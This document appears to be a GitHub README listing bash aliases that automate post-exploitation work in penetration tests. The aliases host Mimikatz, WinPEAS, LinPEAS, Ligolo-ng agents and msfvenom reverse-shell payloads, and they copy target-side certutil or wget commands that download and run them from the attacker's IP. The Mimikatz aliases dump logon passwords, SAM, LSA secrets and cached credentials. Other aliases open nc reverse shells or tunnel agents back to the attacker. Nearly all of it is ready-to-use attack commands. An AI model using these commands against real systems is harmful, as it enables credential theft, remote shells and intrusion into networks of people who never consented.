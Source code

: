 **Tools Needed**
`sudo apt install xsel peass mimikatz ligolo-ng gnome-terminal`


**Creates TUN0 Variable as TUN0 IP Address**
```bash
export TUN0=`ip a|grep eth0: -A3 | grep -oP '\b((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\b'`
```
**Copy To Clipboard Alias**
```bash
alias COPY='tr -d "\n" | xsel -ib'
```

**Host Mimikatz Files And Copies Powershell Commands To Automate Downloading And Executes Common Mimikatz Commands**
```bash
alias MIMIKATZPWSH="(cd /usr/share/windows-resources/mimikatz/x64/ ; echo -e \"certutil -urlcache -f http://$TUN0:8000/mimidrv.sys mimidrv.sys ; certutil -urlcache -f http://$TUN0:8000/mimikatz.exe mimikatz.exe ; certutil -urlcache -f http://$TUN0:8000/mimilib.dll mimilib.dll ; certutil -urlcache -f http://$TUN0:8000/mimispool.dll mimispool.dll\ ; .\\\\mimikatz.exe 'privilege::debug' 'token::elevate' 'sekurlsa::logonpasswords full' 'lsadump::sam' 'lsadump::secrets' 'lsadump::cache' \" | COPY  ; python -m http.server)"
```

**Host Mimikatz Files And Copies CMD Commands To Automate Downloading And Executes Common Mimikatz Commands**
```bash
alias MIMIKATZCMD="(cd /usr/share/windows-resources/mimikatz/x64/ ; echo -e \"certutil -urlcache -f http://$TUN0:8000/mimidrv.sys mimidrv.sys & certutil -urlcache -f http://$TUN0:8000/mimikatz.exe mimikatz.exe & certutil -urlcache -f http://$TUN0:8000/mimilib.dll mimilib.dll & certutil -urlcache -f http://$TUN0:8000/mimispool.dll mimispool.dll\ & mimikatz.exe privilege::debug token::elevate sekurlsa::logonpasswords full lsadump::sam lsadump::secrets lsadump::cache \" | COPY  ; python -m http.server)"
```

**Host WinPEAS Executable And Copies Command To Download The Executable On The Remote Machine**
```bash
alias WINPEASS="(cd /usr/share/peass/winpeas/ ; echo certutil -urlcache -f http://$TUN0:8000/winPEASx64.exe winpeas.exe | COPY ; python -m http.server)"
```

**Host Windows Ligolo Agent File and Copies Powershell Commands Used To Download It And Connect To Attacker Machine**
```bash
alias WINLIGOLOPWSH="(cd /opt/ligolo-ng-agents/ ; echo -e 'certutil -urlcache -f http://$TUN0:8000/agent.exe agent.exe ; .\\\\agent.exe -connect $TUN0:11601 -ignore-cert' | COPY ; gnome-terminal -- ligolo-ng -selfcert ; python -m http.server)"

```

**Host Windows Ligolo Agent File and Copies CMD Commands Used To Download It And Connect To Attacker Machine**
```bash
alias WINLIGOLOCMD="(cd /opt/ligolo-ng-agents/ ; echo -e 'certutil -urlcache -f http://$TUN0:8000/agent.exe agent.exe & .\\\\agent.exe -connect $TUN0:11601 -ignore-cert' | COPY ; gnome-terminal -- ligolo-ng -selfcert ; python -m http.server)"

```

**Host Linpeas Shell Script and Copies Command To Download and Execute It**
```bash
alias LINPEASS="(cd /usr/share/peass/linpeas/ ; echo \"wget http://$TUN0:8000/linpeas.sh ; bash linpeas.sh\" |COPY ; python -m http.server)"
```

**Creates Stageless Windows Reverse Shell Payload, Host's The File and Copies Command Used To Download The Payload On A Windows Machine**
```bash
alias WINREVSHELL='(export LPORT=$(shuf -i 9000-9999 -n 1) ; msfvenom -p windows/x64/shell_reverse_tcp LHOST=$TUN0 LPORT=$LPORT -f exe -o rev$LPORT.exe ; echo "certutil -urlcache -f http://$TUN0:8000/rev$LPORT.exe rev$LPORT.exe" | COPY ; gnome-terminal -- nc -lvnp $LPORT ; python -m http.server)'
```

**Creates Stageless Linnx Reverse Shell Payload, Host's The File and Copies Command Used To Download and Execute The Payload**
```bash
alias LINREVSHELL='(export LPORT=$(shuf -i 9000-9999 -n 1) ; msfvenom -p linux/x64/shell_reverse_tcp LHOST=$TUN0 LPORT=$LPORT -f elf -o rev$LPORT ; echo "wget http://$TUN0:8000/rev$LPORT ; chmod u+x rev$LPORT ; ./rev$LPORT" | COPY ; gnome-terminal -- nc -lvnp $LPORT ; python -m http.server)'

```

